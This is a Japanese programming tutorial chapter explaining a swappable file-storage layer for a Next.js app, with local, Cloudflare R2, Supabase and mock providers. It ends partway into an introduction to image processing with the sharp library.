

この設計には2つのデザインパターンが使われています。

**ストラテジーパターン（Strategy Pattern）**: 同じインターフェースを持つ複数の実装を動的に切り替え可能にするパターンです。どのプロバイダーを使っても、呼び出し側のコードは一切変更不要です。

**シングルトンパターン（Singleton Pattern）**: アプリケーション全体で1つのプロバイダーインスタンスのみを保持します。リクエストのたびにSDKの初期化やクライアント生成を行わず、リソースを効率的に利用します。

### 11.9.2 StorageProviderインターフェース

全てのストレージプロバイダーが実装すべき「契約」を定義するインターフェースです。

```typescript
// lib/storage/index.ts

/**
 * アップロード結果の型定義
 * 成功時は url が設定され、失敗時は error が設定される
 */
export interface UploadResult {
  success: boolean
  url?: string       // 成功時: アップロードされたファイルの公開URL
  error?: string     // 失敗時: エラーメッセージ
}

/**
 * 削除結果の型定義
 */
export interface DeleteResult {
  success: boolean
  error?: string     // 失敗時: エラーメッセージ
}

/**
 * ストレージプロバイダーのインターフェース
 *
 * 全てのプロバイダーはこの2つのメソッドを実装する必要がある
 */
interface StorageProvider {
  /**
   * ファイルをストレージにアップロード
   * @param file - ファイルのバイナリデータ（Buffer）
   * @param filename - 元のファイル名（参考情報として使用）
   * @param contentType - MIMEタイプ（例: "image/jpeg"）
   * @param folder - 保存先フォルダ（例: "avatars", "posts"）
   */
  upload(file: Buffer, filename: string, contentType: string, folder: string): Promise<UploadResult>

  /**
   * ファイルをストレージから削除
   * @param url - 削除するファイルの公開URL
   */
  delete(url: string): Promise<DeleteResult>
}
```

このインターフェース設計のポイントは以下のとおりです。

| パラメータ | 役割 | 例 |
|-----------|------|-----|
| `file` | ファイルの実体（バイナリデータ） | `Buffer.from(await file.arrayBuffer())` |
| `filename` | 元のファイル名（安全なファイル名の生成に利用） | `profile.jpg` |
| `contentType` | ファイルの種類を示すMIMEタイプ | `image/jpeg`, `image/png` |
| `folder` | 保存先の論理フォルダ | `avatars`, `headers`, `post-images` |

### 11.9.3 ヘルパー関数: MIMEタイプから拡張子への変換

各プロバイダーで共通利用するヘルパー関数です。

```typescript
/**
 * MIMEタイプから適切なファイル拡張子を取得
 *
 * なぜ必要か？
 * アップロードされたファイルの Content-Type から保存時の拡張子を決定するため。
 * ブラウザやCDNはファイル拡張子を参考にファイルの種類を判断する。
 */
function getExtension(contentType: string): string {
  const map: Record<string, string> = {
    'image/jpeg': '.jpg',
    'image/png': '.png',
    'image/webp': '.webp',
    'image/gif': '.gif',
  }
  return map[contentType] || '.jpg'  // 未知のタイプにはデフォルト拡張子
}
```

### 11.9.4 ローカルストレージプロバイダー（開発環境用）

開発環境で使用する最もシンプルなプロバイダーです。Next.jsの`public`ディレクトリにファイルを保存します。

```typescript
class LocalStorageProvider implements StorageProvider {
  /**
   * アップロード先ディレクトリ
   * process.cwd() = プロジェクトルート
   * 例: /Users/name/project/public/uploads
   */
  private uploadDir: string

  constructor() {
    this.uploadDir = path.join(process.cwd(), 'public', 'uploads')
  }

  async upload(file: Buffer, filename: string, contentType: string, folder: string): Promise<UploadResult> {
    try {
      // 1. 保存先フォルダを作成（既存なら何もしない）
      const folderPath = path.join(this.uploadDir, folder)
      await mkdir(folderPath, { recursive: true })

      // 2. ユニークなファイル名を生成
      //    タイムスタンプ + ランダム16文字で衝突を回避
      const ext = getExtension(contentType)
      const uniqueName = `${Date.now()}-${crypto.randomBytes(8).toString('hex')}${ext}`
      const filePath = path.join(folderPath, uniqueName)

      // 3. ファイルを書き込み
      await writeFile(filePath, file)

      // 4. 公開URLを返す（Next.jsのpublicディレクトリからの相対パス）
      const url = `/uploads/${folder}/${uniqueName}`
      return { success: true, url }
    } catch (err) {
      return { success: false, error: err instanceof Error ? err.message : 'Unknown error' }
    }
  }

  async delete(url: string): Promise<DeleteResult> {
    try {
      const relativePath = url.replace('/uploads/', '')
      const filePath = path.join(this.uploadDir, relativePath)
      await unlink(filePath)
      return { success: true }
    } catch (err) {
      return { success: false, error: err instanceof Error ? err.message : 'Unknown error' }
    }
  }
}
```

**ローカルストレージのファイル配置:**

```
project-root/
└── public/
    └── uploads/
        ├── avatars/           # プロフィール画像
        │   └── 1642345678901-a1b2c3d4e5f6g7h8.jpg
        ├── headers/           # ヘッダー画像
        │   └── 1642345679012-b2c3d4e5f6g7h8i9.png
        ├── post-images/       # 投稿画像
        └── post-videos/       # 投稿動画
```

### 11.9.5 Cloudflare R2プロバイダー（本番環境用）

BON-LOGの本番環境で使用するプロバイダーです。AWS S3互換のAPIを使用します。

```typescript
class CloudflareR2StorageProvider implements StorageProvider {
  private s3Client: any = null
  private bucket: string
  private publicUrl: string
  private initialized: boolean = false

  constructor() {
    this.bucket = process.env.R2_BUCKET_NAME || 'uploads'
    this.publicUrl = process.env.R2_PUBLIC_URL || ''
  }

  /**
   * 遅延初期化（Lazy Initialization）
   *
   * なぜ遅延初期化か？
   * 1. AWS SDKのバンドルサイズが大きい → 必要時のみロード
   * 2. ビルド時に環境変数が未設定でもエラーにならない
   * 3. ローカルプロバイダー使用時に不要なSDKロードを防止
   */
  private async ensureInitialized() {
    if (this.initialized) return

    // 動的インポート: 実行時にモジュールを読み込む
    const { S3Client } = await import('@aws-sdk/client-s3')

    const accountId = process.env.R2_ACCOUNT_ID
    const accessKeyId = process.env.R2_ACCESS_KEY_ID
    const secretAccessKey = process.env.R2_SECRET_ACCESS_KEY

    if (!accountId || !accessKeyId || !secretAccessKey) {
      throw new Error('Cloudflare R2 credentials not configured')
    }

    // R2用にS3クライアントを設定
    // region: 'auto' → R2が自動的に最適なリージョンを選択
    this.s3Client = new S3Client({
      region: 'auto',
      endpoint: `https://${accountId}.r2.cloudflarestorage.com`,
      credentials: { accessKeyId, secretAccessKey },
    })

    this.initialized = true
  }

  async upload(file: Buffer, filename: string, contentType: string, folder: string): Promise<UploadResult> {
    try {
      await this.ensureInitialized()
      const { PutObjectCommand } = await import('@aws-sdk/client-s3')

      const ext = getExtension(contentType)
      const uniqueName = `${folder}/${Date.now()}-${crypto.randomBytes(8).toString('hex')}${ext}`

      // S3 PutObject API でファイルをアップロード
      const command = new PutObjectCommand({
        Bucket: this.bucket,
        Key: uniqueName,
        Body: file,
        ContentType: contentType,
      })
      await this.s3Client.send(command)

      // 公開URLを生成（カスタムドメイン or デフォルトr2.devドメイン）
      const url = this.publicUrl
        ? `${this.publicUrl}/${uniqueName}`
        : `https://${this.bucket}.${process.env.R2_ACCOUNT_ID}.r2.dev/${uniqueName}`

      return { success: true, url }
    } catch (err) {
      return { success: false, error: err instanceof Error ? err.message : 'Unknown error' }
    }
  }

  async delete(url: string): Promise<DeleteResult> {
    try {
      await this.ensureInitialized()
      const { DeleteObjectCommand } = await import('@aws-sdk/client-s3')

      // URLからオブジェクトキーを抽出
      const urlObj = new URL(url)
      const key = urlObj.pathname.startsWith('/') ? urlObj.pathname.slice(1) : urlObj.pathname

      const command = new DeleteObjectCommand({
        Bucket: this.bucket,
        Key: key,
      })
      await this.s3Client.send(command)

      return { success: true }
    } catch (err) {
      return { success: false, error: err instanceof Error ? err.message : 'Unknown error' }
    }
  }
}
```

### 11.9.7 ファクトリ関数によるプロバイダー切替

環境変数`STORAGE_PROVIDER`の値に応じて、適切なプロバイダーを自動選択するファクトリ関数です。

```typescript
// シングルトンインスタンスを保持する変数
let storageProvider: StorageProvider | null = null

/**
 * ストレージプロバイダーを取得（ファクトリ関数）
 *
 * 環境変数 STORAGE_PROVIDER に基づいてプロバイダーを選択し、
 * シングルトンとしてキャッシュする
 */
function getStorageProvider(): StorageProvider {
  // 既存のインスタンスがあれば再利用（シングルトン）
  if (storageProvider) return storageProvider

  const provider = process.env.STORAGE_PROVIDER || 'local'

  switch (provider) {
    case 'r2':
      storageProvider = new CloudflareR2StorageProvider()
      break
    case 'supabase':
      storageProvider = new SupabaseStorageProvider()
      break
    case 'local':
    default:
      // 未知の値の場合もローカルにフォールバック（安全策）
      storageProvider = new LocalStorageProvider()
      break
  }

  return storageProvider
}

/**
 * 公開API: ファイルアップロード
 *
 * 呼び出し側はプロバイダーの種類を意識する必要がない
 */
export async function uploadFile(
  file: Buffer,
  filename: string,
  contentType: string,
  folder: string
): Promise<UploadResult> {
  const provider = getStorageProvider()
  return provider.upload(file, filename, contentType, folder)
}

/**
 * 公開API: ファイル削除
 */
export async function deleteFile(url: string): Promise<DeleteResult> {
  const provider = getStorageProvider()
  return provider.delete(url)
}
```

### 11.9.8 環境変数の設定例

各環境での`.env.local`設定例を示します。

**開発環境（ローカル）:**

```bash
# ストレージプロバイダー: ローカルファイルシステム
STORAGE_PROVIDER=local
# → public/uploads/ にファイルが保存される
```

**本番環境（Cloudflare R2）:**

```bash
STORAGE_PROVIDER=r2
R2_ACCOUNT_ID=your-cloudflare-account-id
R2_ACCESS_KEY_ID=your-r2-access-key
R2_SECRET_ACCESS_KEY=your-r2-secret-key
R2_BUCKET_NAME=bonsai-uploads
R2_PUBLIC_URL=https://cdn.bon-log.com
```

### 11.9.9 プロバイダー比較表

| プロバイダー | ストレージ単価 | エグレス費用 | 主な特徴 |
|-------------|-------------|-------------|---------|
| Cloudflare R2 | $0.015/GB/月 | **無料** | S3互換API、CDN統合 |
| Supabase | 1GB無料 | 2GB無料/月 | PostgreSQL + Storage一体型 |
| ローカル | 無料 | N/A | 開発・テスト専用 |

> **ベンダーロックインの回避**
>
> このアーキテクチャの最大のメリットは、ストレージサービスの移行が容易なことです。例えばCloudflare R2からAWS S3に移行する場合、新しい`S3StorageProvider`クラスを追加し、環境変数を変更するだけです。アプリケーション本体のコードは一切変更不要です。

<details>
<summary><b>理解度チェック</b></summary>

**Q1**: ストラテジーパターンとファクトリパターンの役割の違いは何ですか？

**A1**: ストラテジーパターンは「同じインターフェースの複数の実装を交換可能にする」パターンで、各プロバイダークラスが`StorageProvider`インターフェースを実装している部分に対応します。ファクトリパターンは「どの実装を使うかを決定し、インスタンスを生成する」パターンで、`getStorageProvider()`関数に対応します。

**Q2**: 遅延初期化（Lazy Initialization）のメリットは何ですか？

**A2**: (1) ビルド時に環境変数が未設定でもエラーにならない、(2) 使用しないプロバイダーのSDKをロードしない（バンドルサイズ削減）、(3) 初回アクセスまでリソースを消費しない、の3点です。特にCloudflare R2のSDKはサイズが大きいため、必要時のみのロードが重要です。
</details>

### 11.9.10 Supabase Storageプロバイダー

Supabase Storage は、PostgreSQLデータベースと同じプロジェクトで一体運用できるストレージサービスです。REST APIを直接使用して実装しており、公式SDKに依存しないため、パッケージサイズを最小限に抑えています。

```typescript
// lib/storage/index.ts - SupabaseStorageProvider

class SupabaseStorageProvider implements StorageProvider {
  /**
   * Supabase プロジェクトのURL
   *
   * 形式: https://xxxxx.supabase.co
   * SupabaseダッシュボードのProject Settings → API から取得
   */
  private supabaseUrl: string

  /**
   * サービスロールキー（特権キー）
   *
   * ■ 重要: これはサーバーサイドでのみ使用すること！
   *
   * サービスロールキーは、Row Level Security（RLS）をバイパスして
   * すべての操作が可能な特権キーです。
   *
   * もしクライアント（ブラウザ）に公開してしまうと、
   * 誰でもデータベースの全データにアクセスできてしまいます。
   *
   * NEXT_PUBLIC_ を付けないことで、サーバーサイドでのみ利用可能にしています。
   */
  private supabaseKey: string

  /**
   * ストレージバケット名
   *
   * Supabase Storageの「フォルダ」に相当する概念。
   * ダッシュボードの Storage → New Bucket から作成可能。
   */
  private bucket: string

  constructor() {
    this.supabaseUrl = process.env.NEXT_PUBLIC_SUPABASE_URL || ''
    this.supabaseKey = process.env.SUPABASE_SERVICE_ROLE_KEY || ''
    this.bucket = process.env.SUPABASE_STORAGE_BUCKET || 'uploads'
    logger.log('Storage provider initialized: supabase')
  }

  async upload(
    file: Buffer,
    filename: string,
    contentType: string,
    folder: string
  ): Promise<UploadResult> {
    try {
      // 認証情報の確認
      if (!this.supabaseUrl || !this.supabaseKey) {
        throw new Error('Supabase credentials not configured')
      }

      // ユニークなファイル名を生成（タイムスタンプ + ランダム文字列）
      const ext = getExtension(contentType)
      const uniqueName = `${folder}/${Date.now()}-${crypto.randomBytes(8).toString('hex')}${ext}`

      /**
       * REST APIでファイルをアップロード
       *
       * Supabase Storage REST API エンドポイント:
       *   POST /storage/v1/object/{bucket}/{path}
       *
       * 認証:
       *   Authorization: Bearer {service_role_key}
       *
       * ボディ:
       *   ファイルのバイナリデータ（Uint8Arrayに変換）
       *
       * ■ なぜ Uint8Array に変換するのか？
       *   fetch() の body に Buffer を直接渡すと
       *   一部の環境（Edge Runtime等）で正しく動作しない場合があります。
       *   Uint8Array は Web 標準の型なので、どの環境でも安全に使用できます。
       */
      const response = await fetch(
        `${this.supabaseUrl}/storage/v1/object/${this.bucket}/${uniqueName}`,
        {
          method: 'POST',
          headers: {
            Authorization: `Bearer ${this.supabaseKey}`,
            'Content-Type': contentType,
          },
          body: new Uint8Array(file),
        }
      )

      if (!response.ok) {
        const error = await response.text()
        throw new Error(`Supabase upload failed: ${error}`)
      }

      /**
       * 公開URLを生成
       *
       * Supabaseの公開URLパターン:
       *   {supabaseUrl}/storage/v1/object/public/{bucket}/{path}
       *
       * ■ 注意: バケットの「Public」設定が必要
       *   Supabaseダッシュボード → Storage → バケット設定
       *   → Public を ON にする
       *   OFFの場合、認証なしではアクセスできません。
       */
      const url = `${this.supabaseUrl}/storage/v1/object/public/${this.bucket}/${uniqueName}`

      return { success: true, url }
    } catch (err) {
      logger.error('Supabase storage upload error:', err)
      return { success: false, error: err instanceof Error ? err.message : 'Unknown error' }
    }
  }

  async delete(url: string): Promise<DeleteResult> {
    try {
      if (!this.supabaseUrl || !this.supabaseKey) {
        throw new Error('Supabase credentials not configured')
      }

      /**
       * URLからファイルパスを取得
       *
       * 正規表現で /storage/v1/object/public/{bucket}/ 以降のパスを抽出
       *
       * 入力: https://xxx.supabase.co/storage/v1/object/public/uploads/avatars/file.jpg
       * マッチ: avatars/file.jpg
       */
      const urlObj = new URL(url)
      const pathMatch = urlObj.pathname.match(/\/storage\/v1\/object\/public\/[^/]+\/(.+)/)
      if (!pathMatch) {
        throw new Error('Invalid Supabase storage URL')
      }
      const filePath = pathMatch[1]

      const response = await fetch(
        `${this.supabaseUrl}/storage/v1/object/${this.bucket}/${filePath}`,
        {
          method: 'DELETE',
          headers: {
            Authorization: `Bearer ${this.supabaseKey}`,
          },
        }
      )

      if (!response.ok) {
        const error = await response.text()
        throw new Error(`Supabase delete failed: ${error}`)
      }

      return { success: true }
    } catch (err) {
      logger.error('Supabase storage delete error:', err)
      return { success: false, error: err instanceof Error ? err.message : 'Unknown error' }
    }
  }
}
```

**Supabase環境の設定例:**

```bash
STORAGE_PROVIDER=supabase
NEXT_PUBLIC_SUPABASE_URL=https://your-project.supabase.co
SUPABASE_SERVICE_ROLE_KEY=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...
SUPABASE_STORAGE_BUCKET=uploads
```

> **Supabase Storage と他のプロバイダーの使い分け**
>
> Supabase Storage は、既にSupabaseのデータベースを使用しているプロジェクトに最適です。データベースとストレージを同じダッシュボードで管理でき、Row Level Security（RLS）による細かなアクセス制御も可能です。ただし、エグレス料金は無料枠（2GB/月）を超えると課金されるため、画像配信量が多いサービスではCloudflare R2の方が経済的です。

### 11.9.11 ストレージ抽象化の動作フロー図

実際にアプリケーションからストレージプロバイダーが呼び出される流れを、全体を通して見てみましょう。



この図で重要なのは、**呼び出し側のコード（ステップ1）が完全に同じ**であることです。環境変数を変えるだけで、ファイルの保存先が切り替わります。

### 11.9.12 ユニークなファイル名生成の仕組み

全プロバイダーで共通して使われる「ファイル名の衝突を防ぐ仕組み」を深掘りしましょう。

```typescript
/**
 * ファイル名の生成パターン:
 *
 * {タイムスタンプ}-{ランダム16文字}{拡張子}
 *
 * 例: 1707753600000-a1b2c3d4e5f6g7h8.jpg
 *      ↑               ↑                ↑
 *      Date.now()       crypto           .jpg
 *      ミリ秒精度       randomBytes(8)    getExtension()
 */
const uniqueName = `${Date.now()}-${crypto.randomBytes(8).toString('hex')}${ext}`
```

なぜ2つの要素を組み合わせるのでしょうか？

```
■ Date.now() だけの場合:
  → 同一ミリ秒に複数のアップロードがあると衝突する
  → 例: 2人が同時に画像をアップロード

■ crypto.randomBytes(8) だけの場合:
  → 理論上の衝突確率は 1/2^64 ≈ 5.4 × 10^-20（極めて低い）
  → ただし、ファイル名の並び順から時系列がわからない

■ 両方を組み合わせる利点:
  → 衝突の確率がさらに激減
  → ファイル名のプレフィックスから作成時期がわかる（デバッグに便利）
  → ファイルシステムのソート順が時系列になる

■ 具体的な衝突確率:
  同一ミリ秒に 2^64 通り = 18,446,744,073,709,551,616 パターン
  → 1秒間に100万ファイルアップロードしても、
     衝突が起きるまで約58万年かかる計算
```

### 11.9.13 プロバイダー移行のシナリオ

実際の開発で起こりうるプロバイダー移行のシナリオを見てみましょう。例えば、開発初期はローカルストレージを使い、本番環境でCloudflare R2に切り替えるケースです。

```
■ シナリオ: ローカル → R2 への移行

ステップ1: 開発環境（ローカル）
   .env.local:
     STORAGE_PROVIDER=local

   → ファイルは public/uploads/ に保存される
   → URL: /uploads/posts/xxx.jpg

ステップ2: 本番環境の準備
   .env.production:
     STORAGE_PROVIDER=r2
     R2_ACCOUNT_ID=xxx
     R2_ACCESS_KEY_ID=xxx
     R2_SECRET_ACCESS_KEY=xxx
     R2_BUCKET_NAME=bonsai-uploads
     R2_PUBLIC_URL=https://cdn.bon-log.com

   → コードの変更は一切不要！
   → 環境変数を変えるだけ

ステップ3: 既存ファイルの移行（オプション）
   既にローカルに保存された画像を R2 に移行する場合は、
   別途マイグレーションスクリプトを実行する必要があります。

   データベースの URL も更新が必要:
     /uploads/posts/xxx.jpg
     → https://cdn.bon-log.com/posts/xxx.jpg
```

**アプリケーションコードの変更箇所: 0行**

これがストレージ抽象化の最大のメリットです。プロバイダーの詳細を知っているのは `lib/storage/index.ts` だけで、アプリケーションの残りのコードは一切変更する必要がありません。

### 11.9.14 テスト環境でのモックプロバイダー

自動テストでは実際のストレージサービスに接続したくない場合があります。そんなときは環境変数を `local` に設定するか、テスト用のモックプロバイダーを使用します。

```typescript
/**
 * テスト用: モックストレージプロバイダー
 *
 * 実際のファイル操作を行わず、
 * 成功レスポンスを返すだけのプロバイダー
 */
class MockStorageProvider implements StorageProvider {
  // アップロードされた「ふり」をする
  async upload(
    file: Buffer,
    filename: string,
    contentType: string,
    folder: string
  ): Promise<UploadResult> {
    // 実際のファイル保存は行わない
    const ext = getExtension(contentType)
    const mockUrl = `https://mock-storage.test/${folder}/mock-${Date.now()}${ext}`
    return { success: true, url: mockUrl }
  }

  // 削除した「ふり」をする
  async delete(url: string): Promise<DeleteResult> {
    return { success: true }
  }
}

// テストファイルでの使用例（Vitest）:
// vi.mock('@/lib/storage', () => ({
//   uploadFile: vi.fn().mockResolvedValue({
//     success: true,
//     url: 'https://mock-storage.test/posts/mock.jpg',
//   }),
//   deleteFile: vi.fn().mockResolvedValue({ success: true }),
// }))
```

このように、インターフェースに基づいた設計は、テストのしやすさにも直結します。

### 11.9.15 各プロバイダーの内部処理比較表

3つのプロバイダーの内部実装を比較してまとめます。

| 項目 | ローカル | R2 | Supabase |
|------|---------|-----|----------|
| 初期化 | 即座（パス設定） | 遅延（SDK動的読込） | 即座（URL設定） |
| SDK | fs/promises（Node標準） | @aws-sdk/client-s3 | fetch()（Web標準） |
| 認証方式 | 不要 | Access Key + Secret | Service Role Key (JWT) |
| ファイル名生成 | タイムスタンプ+ランダム | タイムスタンプ+ランダム | タイムスタンプ+ランダム |
| 保存先 | public/uploads/ | R2 Bucket | Supabase Bucket |
| URL形式 | /uploads/...（相対パス） | https://cdn.example.com/... | https://xxx.supabase.co/storage/... |
| 削除方法 | fs.unlink() | DeleteObject Command | DELETE API |
| 適した環境 | 開発・テスト | 本番 | Supabase利用時・ステージング |

<details>
<summary><b>理解度チェック: ストレージ抽象化の総まとめ</b></summary>

**Q1**: SupabaseStorageProviderが公式SDKではなくREST APIを直接使用している理由は何ですか？

**A1**: パッケージサイズの削減と依存関係の最小化が主な理由です。Supabase公式SDKにはデータベースクライアント、認証機能、リアルタイム機能など多くの機能が含まれており、ストレージ機能だけが必要な場合にはオーバーヘッドが大きくなります。fetch()（Web標準API）だけで実装することで、追加のnpmパッケージが不要になり、バンドルサイズを最小限に抑えられます。

**Q2**: ファイル名に `Date.now()` と `crypto.randomBytes(8)` の両方を使う理由を説明してください。

**A2**: `Date.now()` はミリ秒精度のタイムスタンプで、ファイルの作成順序を把握でき、デバッグやファイル管理に便利です。しかし同一ミリ秒に複数のアップロードがあると衝突する可能性があります。`crypto.randomBytes(8)` は8バイト（16進数16文字）のランダム値で、2^64通りのパターンがあり衝突確率が極めて低いです。両方を組み合わせることで、時系列の判読性と衝突回避の両方を実現しています。

**Q3**: テスト環境でモックプロバイダーが有用な場面を2つ挙げてください。

**A3**: (1) CI/CDパイプライン（GitHub Actions等）でテストを実行する際、クラウドストレージのAPIキーを設定せずにテストを完了させたい場合。(2) ネットワーク接続なしのオフライン環境でユニットテストを実行したい場合。モックプロバイダーを使えば、実際のストレージ通信を行わずに、アプリケーションロジックのテストに集中できます。
</details>

---

## 11.10 sharp画像処理（選択肢としての学習）

> **本プロジェクトについて**  
> **BON-LOGでは現在Sharpは使っていません。** 画像の最適化は **next/image** と**クライアント側での圧縮**で賄っています。  
> このセクションでは「サーバー側でリサイズ・フォーマット変換をしたいときの選択肢」としてSharpを学び、必要になったときに参照できるようにします。

> **このセクションで学ぶこと**
> - sharpライブラリの概要と特徴
> - アスペクト比を維持したリサイズ処理
> - WebP/AVIF形式への変換による容量削減
> - EXIF情報の除去によるプライバシー保護
> - サムネイル生成の実装パターン
> - 品質パラメータの最適化

### 11.10.1 sharpライブラリの概要

**sharp**は、Node.js環境で最も高速な画像処理ライブラリです。C言語で書かれた`libvips`をバインディングしており、ImageMagickやGraphicsMagickと比較して4-5倍高速に動作します。

```bash
# インストール
npm install sharp

# 型定義（TypeScript用）
npm install -D @types/sharp
```

BON-LOGの**現在の実装ではSharpは未使用**です。Next.jsの`next/image`は内部的に画像最適化を行いますが、本プロジェクトではクライアント側の圧縮とR2へのアップロードを主に使用しています。サーバー側でリサイズ・WebP変換などをしたい場合は、Sharpを導入する選択肢があります（ここではその書き方を学びます）。

### Sharp画像処理パイプライン



### 11.10.2 基本的な使い方

sharpはメソッドチェーンで画像変換を記述します。

```typescript
import sharp from 'sharp'

/**
 * 基本的な画像変換の例
 *
 * sharp() でパイプラインを開始し、
 * メソッドチェーンで処理を追加、
 * 最後に toBuffer() や toFile() で出力
 */
const outputBuffer = await sharp(inputBuffer)
  .resize(800, 600)    // リサイズ
  .webp({ quality: 80 }) // WebP形式に変換
  .toBuffer()            // Bufferとして出力

// ファイルに出力する場合
await sharp(inputBuffer)
  .resize(800, 600)
  .toFile('output.webp')
```

### 11.10.3 アスペクト比を維持したリサイズ

ユーザーがアップロードした画像はさまざまなサイズです。表示に最適なサイズにリサイズする際、アスペクト比（縦横比）を維持することが重要です。

```typescript
/**
 * アスペクト比を維持してリサイズ
 *
 * fit オプション:
 * - 'cover':  指定サイズに収まるようにクロップ（デフォルト）
 * - 'contain': 指定サイズに収まるように縮小（余白あり）
 * - 'fill':   指定サイズに引き伸ばし（歪みあり）
 * - 'inside': 指定サイズ内に収まるように縮小（余白なし）
 * - 'outside': 指定サイズを覆うように拡大
 */
async function resizeImage(
  buffer: Buffer,
  maxWidth: number,
  maxHeight: number
): Promise<Buffer> {
  return await sharp(buffer)
    .resize(maxWidth, maxHeight, {
      fit: 'inside',            // 元の比率を維持して収まるように縮小
      withoutEnlargement: true, // 小さい画像は拡大しない
    })
    .toBuffer()
}

// 使用例: 投稿画像を最大1200x1200に収める
const resizedBuffer = await resizeImage(originalBuffer, 1200, 1200)
```

各fitオプションの動作イメージを以下に示します。

```
元画像: 2000x1000 (横長)  →  resize(800, 800) の結果

fit: 'cover'   → 800x800  (中央をクロップ)
fit: 'contain' → 800x800  (上下に余白が追加)
fit: 'inside'  → 800x400  (横幅に合わせて縮小、比率維持)
fit: 'outside' → 1600x800 (縦幅に合わせて拡大、比率維持)
```

### 11.10.4 WebP/AVIF変換による容量削減

WebPとAVIFは次世代の画像フォーマットで、JPEGやPNGより大幅にファイルサイズを削減できます。

```typescript
/**
 * 画像をWebP形式に変換
 *
